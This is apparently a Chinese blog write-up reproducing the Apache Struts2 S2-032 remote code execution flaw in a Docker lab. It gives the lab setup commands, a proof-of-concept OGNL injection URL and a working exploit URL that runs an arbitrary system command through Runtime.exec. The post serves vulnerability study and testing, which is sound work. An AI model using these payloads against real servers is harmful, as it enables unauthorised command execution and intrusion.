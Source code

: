 ```yaml
---
title: Struts2 S2-032远程代码执行漏洞
category: 
- 渗透测试
tags: 
- Docker
- 漏洞复现

---
```


### 漏洞概述

- [影响版本](http://struts.apache.org/docs/s2-032.html)

### 漏洞环境搭建

- 拉取镜像到本地

```bash
$ docker pull medicean/vulapps:s_struts2_s2-032
```

- 启动环境

```bash
$ docker run -d -p 80:8080 medicean/vulapps:s_struts2_s2-032
```

<!-- more -->

### 漏洞利用

- 访问 `http://你的 IP 地址:端口号/`

- Poc

```python
http://127.0.0.1/memoindex.action?method:%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23context[%23parameters.obj[0]].getWriter().print(%23parameters.content[0]%2b602%2b53718),1?%23xx:%23request.toString&obj=com.opensymphony.xwork2.dispatcher.HttpServletResponse&content=10086
```

若页面显示：`1008660253718` 则代表可代码执行。

![image-20201201133452891](https://cdn.jsdelivr.net/gh/John-tlh/blog/images/2020image-20201201133452891.png)

- exp

执行命令(所执行的命令在cmd参数处指定)：

```python
http://127.0.0.1/memoindex.action?method:%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23res%3d%40org.apache.struts2.ServletActionContext%40getResponse(),%23res.setCharacterEncoding(%23parameters.encoding%5B0%5D),%23w%3d%23res.getWriter(),%23s%3dnew+java.util.Scanner(@java.lang.Runtime@getRuntime().exec(%23parameters.cmd%5B0%5D).getInputStream()).useDelimiter(%23parameters.pp%5B0%5D),%23str%3d%23s.hasNext()%3f%23s.next()%3a%23parameters.ppp%5B0%5D,%23w.print(%23str),%23w.close(),1?%23xx:%23request.toString&pp=%5C%5CA&ppp=%20&encoding=UTF-8&cmd=uname
```

![image-20201201133611336](https://cdn.jsdelivr.net/gh/John-tlh/blog/images/2020image-20201201133611336.png)

![image-20201201133626498](https://cdn.jsdelivr.net/gh/John-tlh/blog/images/2020image-20201201133626498.png)

- 利用过程

- 启动kali
- 使用docker搭建漏洞环境
- 开始利用

### 参考链接

[references](http://vulapps.evalbug.com/s_struts2_s2-032/)